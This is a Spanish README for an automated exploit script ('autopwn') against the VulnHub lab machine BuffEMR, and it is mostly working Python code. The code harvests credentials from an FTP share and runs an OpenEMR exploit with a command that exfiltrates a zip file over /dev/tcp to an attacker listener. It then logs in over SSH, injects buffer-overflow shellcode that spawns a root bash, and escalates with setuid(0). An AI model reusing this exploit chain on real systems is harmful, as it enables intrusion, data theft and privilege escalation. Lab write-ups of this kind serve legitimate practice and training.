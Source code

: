 # Autopwn - BuffEMR

En caso de no haber realizado la máquina BuffEMR, es recomendable revisar el [writeup](http://mrpr1ngl3s.github.io/vulnhub/buffemr/ ) para comprender el autopwn.

<p align="center">
	<img src="Img/Autopwn-BuffEMR.png"
		alt="autopwn"
	style="float: left; margin-right: 10px;" />
</p>


# Funcionamiento

Lo primero que realiza el script es acceder a la función **GetCredentials**, obteniendo las credenciales del usuario de la página, para realizar el Mass Assignment, y la contraseña del archivo **.zip**.

```python
def GetCredentials():
	os.system(f"wget -r ftp://{IP} 2>/dev/null")

	with open(f"{IP}/share/openemr/tests/test.accounts") as f:
		credentials = f.read()

	user = re.findall("(.*):", credentials)[1]

	password = re.findall(":(.*)", credentials)[1]

	with open(f"{IP}/share/openemr/sql/keys.sql") as f:
		credentials = f.read()

	passzip = re.findall('"pdfkey", "(.*?)"', credentials)[0]

	return user, password, passzip
```

Tras obtener las credenciales necesarias, elimina el directorio del **FTP**.

```python
shutil.rmtree(f"{IP}")
```

Luego descarga el exploit que realiza el Mass Assignment para enviar el archivo **.zip** en segundo plano.

```python
def MassAssignment():
	os.system("searchsploit -m php/webapps/45161.py 1>/dev/null")

	os.system(f'python2.7 45161.py -u {user} -p {password} -c "cat < /var/user.zip > /dev/tcp/192.168.6.5/1234" http://{IP}/openemr 1>/dev/null')

	os.remove("45161.py")
```

```python
multiprocessing.Process(target=MassAssignment).start()
```

Mientras, por otro lado, recibe el archivo **.zip**, y tras recibirlo, descomprime el archivo, con la contraseña obtenida, para luego conseguir las credenciales del **SSH** mediante expresiones regulares.

```python
def GetPassZip():
	os.system("nc -lvnp 1234 > user.zip")

	subprocess.Popen(["7z", "x","user.zip",f"-p{passZip}"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

	time.sleep(1)

	with open("user.lst", "r") as f:
		Cred = f.read()

	Ussh = re.findall('(.*) -', Cred)[0]

	Pssh = re.findall('- (.*)', Cred)[0]

	return Ussh, Pssh
```

Finalmente, en la función **Buff** se realiza la conexión vía **SSH**, escapando las barras **\\** en el **shellcode** para que no de problemas, y luego tras realizar el **BufferOverflow** cambia el **ID** del usuario para poder navegar de forma cómoda.

```python
def Buff(username, password):
	ssh_command = f"ssh -o StrictHostKeyChecking=no {username}@{IP}"

	ssh_session = pexpect.spawn(ssh_command, timeout=10)

	ssh_session.sendline(password)

	ssh_session.setwinsize(43, 184)

	ssh_session.sendline("/opt/dontexecute $(python -c 'print \"\\x90\"*479 + \"\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80\" + \"\\x30\\xd5\\xff\\xff\"')")

	ssh_session.sendline("python3 -c 'import os; os.setuid(0); os.system(\"bash\")'")

	time.sleep(1)

	ssh_session.interact()
```



